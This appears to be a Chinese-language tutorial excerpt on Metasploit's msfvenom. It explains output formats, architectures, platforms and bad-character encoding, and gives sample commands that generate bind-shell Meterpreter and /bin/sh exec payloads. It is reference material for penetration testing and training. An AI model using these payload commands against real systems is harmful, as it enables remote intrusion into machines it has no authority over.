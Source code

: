 ### -f [指定payload的输出格式]

按需要的格式进行输出：
十六进制hex编码形式 `\x0a`
如果用python写exploit，用`-f python`得到python代码。
如果用python写exploit，用`-f c`得到c代码。


生成一个exe格式的payload，如：
`msfvenom -p windows/meterpreter/bind_tcp -f exe`


**msf支持的输出格式**

```
msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```


### -a [指定架构architecture]

`-a x86`

`-a x86_64`

```
msfvenom -p windows/meterpreter/bind_tcp --help-platform

Platforms
	aix, android, bsd, bsdi, cisco, firefox, freebsd, hardware, hpux, irix, java, javascript, linux, mainframe, multi, netbsd, netware, nodejs, openbsd, osx, php, python, ruby, solaris, unix, windows
```

	
除了使用-a参数指定架构，还可以在-p后的payload名称中直接明确指定架构，如：

```
msfvenom -p linux/x86/exec CMD=/bin/sh
```

此payload指定了参数CMD

查看某个Payload具体需要哪些参数（ Required是yes则必需该参数）

`msfvenom -p linux/x86/exec --payload-options`

### 对payload进行编码

1.规避特殊字符  

`-b '/x00一个特殊字符列表'`

msf会自动找一个合适的编码器规避payload中的这些"坏字符"
`msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw`
